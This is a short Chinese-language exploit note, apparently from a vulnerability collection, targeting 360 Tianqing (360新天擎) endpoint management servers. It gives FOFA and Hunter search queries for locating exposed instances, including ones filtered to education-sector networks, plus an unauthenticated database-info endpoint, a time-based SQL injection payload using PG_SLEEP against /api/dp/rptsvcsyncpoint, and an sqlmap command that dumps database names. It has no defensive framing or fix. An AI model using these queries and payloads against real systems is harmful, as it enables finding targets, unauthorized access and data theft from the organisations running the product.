


## 360天擎 - 未授权与sql注入

## FOFA语法
```title="360新天擎"```


## 鹰图
```web.title="360新天擎"&& ip.isp="教育"```

## 漏洞复现

### 未授权漏洞
```路由后拼接/api/dbstat/gettablessize```


### sql注入漏洞
比较推荐的方式先测试是否存在数据库信息泄露，存在的话大概率存在SQL注入
```
路由后拼接/api/dp/rptsvcsyncpoint?ccid=1

{{Hostname}}/api/dp/rptsvcsyncpoint?ccid=1';SELECT PG_SLEEP(5)--
```


## sqlmap
python .\sqlmap.py --batch -dbs -u https://{{Hostname}}/api/dp/rptsvcsyncpoint?ccid=1
